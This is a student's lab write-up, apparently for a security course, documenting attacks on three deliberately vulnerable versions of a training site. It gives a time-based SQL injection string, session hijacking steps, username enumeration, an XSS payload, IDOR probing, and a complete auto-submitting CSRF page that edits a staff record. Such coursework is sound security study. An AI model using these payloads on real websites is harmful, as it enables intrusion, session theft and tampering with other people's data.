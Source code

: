 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

**Vulnerability #1:** SQL Injection (SQLi)
![Inject this code instead of ID of a salesperson](./1.png)
  ```
  %27%20OR%20SLEEP(5)=0--%27
  ```
* Website will halt for five seconds because of our code

**Vulnerability #2:** Session Hijacking/Fixation

* Get victim's session ID from the hacktool
![Session Hijacking 1](./2.png)
* Open up the website on your side and direct yourself to /index.php (Make sure intercept is on)
![Session Hijacking 2](./3.png)
![Session Hijacking 3](./4.png)
* Change Session ID value to one that we just stole
![Session Hijacking 4](./5.png)
* We are in
![Session Hijacking 5](./6.png)

## Green

**Vulnerability #1:** Username Enumeration

*I want to note that enumeration is not only way to tell if username exists. You can basically guess or use a username of the person from another website, as people try to get the same username on all the websites.*

* Try jmonroeX as your login, where X is a number from 0 to infinity. [I used pperson, because I had this username in my db]
* If username exists, the website will display it as **bold** text.
![Enumeration](./7.png)
![Enumeration](./8.png)

**Vulnerability #2:** Cross-Site Scripting (XSS)

- Send feedback with this code: `<script>alert('Daulet found the XSS!');</script>`
- As soon as admin opens Feedback page, the XSS will be executed.

![XSS](./9.png)

## Red

**Vulnerability #1:** Insecure Direct Object Reference

* Just change the ID of the salesperson until u find those that u were not supposed to
![IDOR1](./10.png)
![IDOR2](./11.png)
![IDOR3](./12.png)

**Vulnerability #2:** CSRF

* Create a malicious website with this code:
```
<html>
  <body onload="document.my_form.submit()">
    <form action="https://104.154.145.74/red/public/staff/salespeople/edit.php?id=1" method="POST" name="hackform" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Rick" />
      <input type="text" name="last_name" value="Astley" />
      <input type="text" name="phone" value="123-456-7890" />
      <input type="text" name="email" value="hackermail@protonmail.com" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```
* Supply this link via feedback to admins
* As soon as admin proceed to the website, he will change the values of employee with ID=5
